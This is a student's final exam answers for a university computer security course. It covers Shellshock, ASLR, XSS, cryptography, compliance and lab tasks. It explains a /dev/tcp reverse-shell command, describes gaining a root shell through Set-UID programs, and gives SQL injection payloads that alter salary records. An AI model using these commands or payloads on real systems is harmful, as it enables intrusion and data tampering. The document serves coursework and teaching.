






```YAML
---
useMath: true
---
```


## Le Finale
## Ben Holmgren
## benjamin.holmgren1@student.montana.edu
## CSCI 476
## Due 4/27/2021 (noon)

### Task 1.1

Indeed, system() and execve() are both used to execute external programs,
but there's an important difference in how each handle data. Importantly,
since system() takes in a string passed to the shell as a command to run,
there is no seperation between a command and data. In the context of the
course material, this opens up system() calls to setuid vulnerabilities.

Contrast that to execve(), which seperates code and data in different
arguments. This has the effect of executing a program directly, and feeding
in arguments therafter. Doing so gets rid of this vulnerability in system()
calls where we could just tack on potentially unintended data following
a shell command.

### Task 1.2

The two conditions needed to exploit a shellshock vulnerability are:

* The target process must be running a vulnerable version of bash
* The payload getting parsed by the vulnerable version of bash gets inputs
by way of environment variables

### Task 1.3

If we run 'nc -l 7070', then we obtain a TCP server that listens for a
connection on port 7070.

Running '/bin/cat < /dev/tcp/10.0.2.6/7070 >&0' on machine 2, we find a 
connection on the port we were listening on with machine 1. The command calls
the standard 'cat' command, whose input device is set to the TCP connection by 
the < symbol. This sends input to the port being listened to by machine 1. 

Now we just need to figure out what this >&0 is all about. 
From referencing back to the shellshock lab, 0 represents the
standard input device. So this is telling us to redirect the output device
to be the standard input device, which is just the shell we're running on
machine 1.

I believe then that this command should
stream any inputs and outputs in the shell of machine 2
and cat them into the shell being run on machine 1. In this way, machine 1
should obtain a live stream of everything that machine 2 is doing.
It seems that whatever is output by machine 2 is redirected to the stdin device,
which has been already redirected to the TCP connection. At the same time,
whatever is input into machine 2 is redirected to the TCP connection as well by
the first part of the command.

### Task 1.4

ASLR stands for "address space layout randomization", and it does precisely
what the name would imply, randomizing the starting addresses of the heap
and the stack. This makes buffer overflow attacks more difficult, because
it makes it harder to guess where these critical addresses are in memory,
which is necessary for these kinds of attacks to work. Without ASLR,
we saw in the lab that we could just examine the execution of a program and see
where things (the heap and the stack in particular)
were located in memory, basing our guesses of their addresses off of these
observations. With ASLR enabled, such a simple approach is not possible.


### Task 1.5

The underlying cause for XSS vulnerabilities is that HTML allows JavaScript
code to be interspersed with data. We saw that for a simple website like
the Elgg web app, if this isn't addressed properly with inputs
intended for data, javascript code can be mixed in with data and cause real
problems (changing passwords/data throughout the system at large).

For the sake of specificity, XSS vulnerabilities stem from taking an
inline approach to writing an HTML page, 
because a browser can't safely distinguish
if the inlined code originates from a trusted source or an untrusted user
as it's being rendered. A user's inputs need to be clearly delineated, and
not in the form of inline HTML code in order to avoid such problems.

### Task 1.6

Reflected XSS refers to a malicious script coming from a current HTTP request
to a vulnerable party.

Stored XSS refers to a malicious script coming from a website's database to a 
vulnerable party.

For reflected XSS, the idea is that a victim could click on a link for 
example, and that link could have some embedded javascript code in it 
which could allow a malicious party to execute some unintended command.
In this way, we could theoretically execute a command that would send a
victim's private data to an attacker.
Interestingly, for reflected XSS, code could
be executed in the browser from some input, and if the input is reflected back
in the browser it could execute and do malicious things.

For stored XSS, the idea is that in areas where users could input things into
a database from a website, they might be able to send code into the database,
potentially causing harm in that way. The most famous example of this is likely
when code is inputted into say, a comment section on a website. If the website
doesn't sanitize these inputs, the code will be rendered in the browser.

In one word, the major difference between reflected and stored XSS is persistence.
Reflected XSS is something that can occur for just one victim at a time,
whereas stored XSS could occur for any victim(s) visiting a site with such
a vulnerability.
 
Enough of my ramblings, you get the point by now. I just think that this is an especially
interesting, and potentially dangerous vulnerability in the world that we live in.

### Task 1.7

After Alice and Bob have sent their initial messages, Alice can compute $(g^y mod p)^x mod p
= g^{yx} mod p$ and Bob can compute $(g^x mod p)^y mod p = g^{xy}mod p$ using each of
their privately generated $x$ and $y$ values respectively. But in this way, Bob and Alice
get a common secret key, which is this shared value of $g_{xy}mod p$ that each party is
able to compute.

Yet another triumph in the annals of human history/computation of cyclic groups!

### Task 1.8

Public key cryptography only really works with using very large numbers, 
and this has a significant cost in performance. In the textbook, it is discussed that RSA
decryption is about 1000 times slower in practice than AES, revealing the significant
performance gap between public key and symmetric key encryption in the real world.

This necessitates the need for a combination of the two tactics; this is gained
by a mixture symmetric key cryptography when we can get away with it, and public key
cryptography when it's necessary. This is precisely hybrid encryption. How does such
a scheme work? The bulk of the actual data ends up being encrypted by symmetric-key
encryption, and then the key for this encryption is encrypted itself using public
key cryptography, and it's shared with a recipient. The encrypted data (which has been
secured, say using AES) is just sent to the recipient as is, since it's encrypted
for anyone without the shared key. All that really needs to be sent using public key crypto
is the symmetric key for the encrypted shared data. In this way, one avoids the expensive
computation needed to decrypt all of the data using public key cryptography standing alone.

### Task 1.9

(i.)

When you run programs at the command line, these programs/libraries are found using local
variables, like for instance PATH. The intended use of such variables is to point users
to the normal programs they'd execute on the command line, many of which are located in
places like /bin. Overwriting variables such as PATH can cause these programs to be found
in abnormal locations.

(ii.)

Since the generally intended versions of the programs are in /bin and normally not in a
different directory, the risk is that these environment variables could be overwritten 
by some kind of sneaky process, where a malicious party could insert a variant 
of one of these common command line programs where it wasn't
expected or intended. Such a thing could overwrite the standard programs most people use in
favor of an unintended one, which could have vulnerabilities an attacker could exploit.

We saw this in Task 6 of the Set-UID lab, where we called an especially cringy line of code
in hindsight

"system("ls");"

Which uses the relative path for the ls command, allowing a potentially entirely different
ls program to be run than the generally intended one if environment variables are manipulated
in the right manner.

### Task 1.10

Three countermeasures to buffer-overflow attacks. Ready, set, go:

(i.)

We can use ASLR, which was described above but in a nutshell just randomly moves
addresses in memory for each given execution of some program. This makes it much
more difficult to guess the correct locations of the stack and the heap, which is
necessary to successfully carry out a buffer overflow attack. However, such a
countermeasure can still be brute forced into coersion, if we simply guess the same
address enough times inevitably the randomization should crack at some point. But it
is definitely more annoying to try to breach.

(ii.)

Another approach is using a stack guard in the compiler. This really just boils down
to having the compiler check for us if anything in memory is overflowing into the
stack, and the compiler can then stop the code from compiling correctly if this is
the case. Such a tactic feels much more difficult to breach, unless somehow an attacker
could insert their own vulnerable compiler onto a system to exploit.

(iii.)

A final approach is to just make the stack not executable. Generally, we don't need the
stack to be executable anyways, so if it's not executable, the idea is that an extended
buffer couldn't find its way onto the stack and then be executed in an unintended manner,
since the stack is just simply not executable. In practice, this too can be overcome,
although it definitely does make the job of an attacker more difficult. Really, this
just boils down to the fact that somewhere, something has to be executable in order
for anyone to accomplish anything in the world, and just because
the stack is off limits doesn't mean that other areas necessarily could be reached
and exploited. Though, finding these other exploitable areas is an annoying challenge
in its own right.

### Task 2.1

Reflecting back on the activity we thought about in class on 4/20, my approach was to use
 AES-CTR to encrypt sensitive data in the xml files by default, with an option to use GCM
if it were preffered by clients. I would only
encrypt the actual raw data itself, and avoid encrypting all of the various xml commands
throughout the files. 

To address objective (1), I chose to use AES rather than some of the other approaches because
it made the most sense in this setting to use symmetric-key cryptography. Since the sensitive
data is just living on the desktops of our customers but we don't want them to access it,
there's no reason to have public key infrastructure- the sensitive data needs to only
be accessible by our team, and only members of our internal group need to encrypt/decrypt
the data. As for CTR, this is where my approach is the most limited because integrity checks
aren't present, as they would be with say, GCM. For that, I'd consider adding an optional
feature where clients could use GCM instead in order to gain these kinds of integrity checks.
However, CTR still warns users if there was anything that it was unable to decrypt
successfully, so at least clients would have some sense of the problem were any corruption
to occur.

As for objective (2), AES is a relatively efficient framework. As I mention in an earlier
problem, AES in practice runs about 1000 times faster than RSA (pg 541 of Computer & Internet
Security). I chose CTR specifically because it doesn't use padding, so there will be less
potential for file corruption and overall messiness than if I were to use say, CBC. It 
appears that this mechanism of AES-CTR is on par with the fastest encryption algorithms, and 
minimizing overhead is a major strength of AES in general. Data loss is a specific strength
of AES-CTR, since it automatically decrypts as much data as is possible. The major drawback
here however, is that we're lacking on integrity checking unless a user opts in to use GCM-
which basically just undoes all of the things we'd gain out of using CTR in the first place
to decrypt as much as is possible rather than just giving up once an issue occurs. In
retrospect, it might've been beneficial in my approach to use something like SHA-256 to
conduct error checking, while still being able to open the program. This isn't what I
had settled on in the activity and through the end of class, but it's the one thing I might
change in hindsight about my approach, so that I also have integrity checking.


### Task 2.2

* Compliance is intended to make sure that companies and various entities throughout
tech are adhering to standards that have been set to maintain the security of people's 
data. Compliance is generally set by government or other accepted third parties throughout
industry and the tech community at large, and the idea is just to make sure that
technical infrastructure being used follows this set regulatory framework. This is
important, because it is a meaningful attempt to protect the everyday person
who is using the internet and the many services it offers. That person should be able
to feel safe in uploading sensitive information online, and if the website
is compliant to certain rigorous standards, the intent is that a user is indeed safe in
doing so.

* A compliance framework is just really a list of rules and regulations that need to be
followed in order to meet the specified standard for a company or other technical entity.
One especially well known example could be something like HIPPA, which is a compliance
framework for companies that process sensitive health information. Really, HIPPA is just
an agreed upon set of rules and guidelines throughout that community, which every entity
falling under that category needs to follow.

* Three examples of compliance rules/tests include:

Red Hat Enterprise Linux OS must be configured to disable USB mass storage. USB drives 
are unknown entities with unknown data, and theoretically someone could come along with 
a USB and introduce some kind of malicious code in this way. Creating a rule to disable
USB mass storage combats this kind of attack, and is beneficial for the main objectives
of compliance.

Red Hat Enterprise Linux OS must be configured so that the root accound must be the
only acound with unrestricted access to the system. This just boils down to the basic
security principle of only giving as many permissions as are completely necessary.
If it were possible to give multiple accounts heightened access, a disgruntled employee
or whoever else could potentially gain access to the highest possible privilege and do
real damage, since they could more easily get root access by way of another nonroot 
account. Removing such threats is undoubtedly beneficial for compliance.

A final example of a STIG brought up in lecture is that Red Hat Linux must have an audit
system configured to audit all use of setuid and setgid programs. These kinds of programs
are a logical thing to exploit, as they have a lot of power in changing passwords and 
that sort of thing. Just keeping track of every time either of these types of programs
are invoked goes a really long way in monitoring potentially malicious activity, getting
to the bottom of where setuid types of attacks are coming from, and mitigating them.
Certainly, this is also beneficial for compliance, and keeping the everyday user safe
from the latest attacks.


### Task 3.1

Upon inspection of the source code, we can see that the program is really just a call
to /bin/cat, which will cat out the file that is specified in the next argument
by a user. Indeed, we can verify immediately that this is the case:



But really this is just the tip of the iceberg with this program. The intent here
seems to be to not only just run the 'cat' command as normal, but in making
the program Set-UID, to run the 'cat' command with heightened privilege. The intent
of the program seems to be that this should
allow someone to read any file, even a file only readable with root access.
To verify that claim, we can try to read the contents of say, the /etc/shadow file:
(I quickly realized that I had the Set-UID countermeasure turned on, so I also turned
that off so that this program would work in the intended, vulnerable manner.)



The really big thing to note here is that the program calls 'system' which is
infamous at this point... there is no seperation between code and data with this
call, so we can definitely do something malicious with this program, as we'll
see soon.

### Task 3.2

Let's now try and run the most dangerous command with elevated privilege possible:
'bin/sh'. Because of how 'system' works, we should just be able to tack on this command
after our first argument intended for '/bin/cat', within the same set of quotation marks.



Importantly, I realized that this attack necessarily must occur using quotation marks
as is done in the above output, so as to combine the commands in the
call to 'system'.

### Task 3.3

Since there's now a seperation between code and data, the above attack won't work.
However, the 'more' command will allow us to view full pages with root access. If
we were somehow able to call /bin/sh while in the viewer, one imagines that we'd have
root access while making that call, and we'd obtain a root shell.

Well, it turns out that we can do exactly that in the file viewer of more using !(command)
in the viewer. In order for the full-page file viewer to actually work, I needed
to call more for a large file, like for instance /etc/shadow. Doing that, I could then
view the file with heightened privilege, and then execute !bin/sh once inside to gain
a root shell:



Clearly, this is not something that I was supposed to be able to do by the intentions
of the creation of the file.

### Task 4.1

The fundamental cause of SQL injection is that data and code can be mixed, as was also
the fundamental cause of so many attacks throughout the course (XSS and system() come
to mind most immediately). So my inclination would be to say that, if the filtering logic
indeed is able to remove **every** possible character that could be associated with code,
a SQL injection attack would not be feasible. Without the ability to gain privilege
through inserting code where data is intended, which is the entire approach used in SQL
injection, such an attack doesn't seem possible.

### Task 4.2

A malicious employee could definitely make this happen by changing say, their password,
in just the right way. In the pasword field when it's being provided by the user,
a malicious user could just type 

```
password', 1000000); #
```

to insert something into the password field, make themselves a millionaire, end the
VALUES line of code, and then comment out the leftover code that was intended to conclude
the statement.

As evidence, here is the resulting output from replacing the above command where the
'passwd' variable would normally go in the code:



Indeed, from this output, we can see that this technique of hijacking the rest of the
statement and then commenting out the remaining bit of the intended code yields
the desired result, which is that our malicious employee has a much larger salary
than what was intended (we made them a millionaire!)

### Task 4.3

Here, we could use a very similar approach from 4.2, where we could enter in the password
field 

```
password'; UPDATE employee SET Salary=0 WHERE Name='Good Employee'; #
```

Where really, any command could follow from the call to
```
password;'
```
and the important thing is that, whatever following statement is concluded with a comment.
Here, I arbitrarily chose to set another person's salary to 0, but one could do just
about anything at that point. I also took full advantage of the ability to execute
multiple commands in one line of SQL. 

As evidence of my technique, I ran the command that would result from such a manipulation
directly in the SQL command line, and viewed the 'employee' table I'd created previously.



Indeed, we know that whatever we'd input as the '$passwd' variable would be directly
pasted into the SQL code following the first ' symbol. Thus, we know that
our technique of hijacking the code after this point is effective in whatever context
such code would be presented, since we can simply insert whatever commands we desire
and comment out the rest of the code thereafter.

### In Conclusion

Thus concludes the mandatory work for those of us in the undergraduate section. At that,
we are also done with computer security for the semester. To reflect on the journey that
we've had, I'd simply like to say thank you for your efforts to share this subject with
me. I tend to stay as far away from systems and those types of concepts as possible,
but I learned in here that those topics can also be incredibly interesting and
fulfilling themselves. I thank you for broadening my horizons, and for presenting
me with a whole lot of engaging and worthwhile problem solving this semester. I wish
you well.
